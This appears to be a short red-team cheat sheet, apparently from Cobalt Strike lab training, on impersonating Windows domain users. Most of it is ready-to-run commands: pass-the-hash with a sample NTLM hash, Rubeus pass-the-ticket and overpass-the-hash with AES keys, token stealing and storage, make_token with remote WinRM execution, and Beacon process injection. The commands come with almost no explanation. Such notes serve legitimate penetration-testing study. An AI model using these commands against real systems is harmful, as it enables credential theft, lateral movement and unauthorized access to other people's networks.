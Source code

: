 # User Impersonation

**Pass The Hash**

drop impersonation with rev2self

```
getuid
pth DOMAIN\User 59fc0f884922b4ce376051134c71e22c
rev2self
```

**Pass The Ticket**

Create this then steal the token

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP
steal_token <PID>
```

**Overpass the hash**

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /ntlm:59fc0f884922b4ce376051134c71e22c /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /domain:DEV /opsec /nowrap
```

**Token Impersonation**

```
steal_token <PID>
```

**Token Store**

Stealing tokens for future use
```
token-store steal <PID>
token-store show
token-store use <id>
token-store remove <id>
token-store remove-all
```


**Make Token**

The make_token command allows you to impersonate a user if you know their plaintext password. The logon session created with LogonUserA has the same local identifier as the caller but the alternate credentials are used when accessing a remote resource.

```
make_token DOMAIN\User <pass>
remote-exec winrm web.dev.cyberbotic.io whoami
```

**Process Injection**

shinject allows you to inject any arbitrary shellcode from a binary file on your attacking machine; and inject will inject a full Beacon payload for the specified listener.
```
inject <PID> x64 tcp-local
```
